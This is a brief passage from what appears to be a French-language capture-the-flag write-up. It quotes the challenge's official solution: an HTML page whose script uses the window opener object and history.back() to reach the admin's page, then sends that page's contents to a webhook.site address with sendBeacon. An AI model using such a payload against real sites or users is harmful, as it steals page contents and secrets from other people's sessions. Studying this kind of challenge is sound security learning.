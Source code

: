 ### Solution officielle

La solution officielle est beaucoup plus courte :

```html

<html>
    <body>
        <script>
            // upload index.html to the public dir after the first admin visit which overwrites `/` response and use history.back() to exfill the flag
            (async()=>{
                if(opener){
                    opener.window.history.back()
                    await new Promise(r=>setTimeout(r,2000));
                    navigator.sendBeacon('https://webhook.site/572acb1c-44f1-433e-8a4d-8f55ae14799a',opener.window.document.body.innerHTML)
                }else{
                    window.open('/?test')
                }
        })()
            
        </script>
    </body>
</html>
```

En effet, on peut accéder à l'objet opener de la fenêtre courante. Je ne savais pas.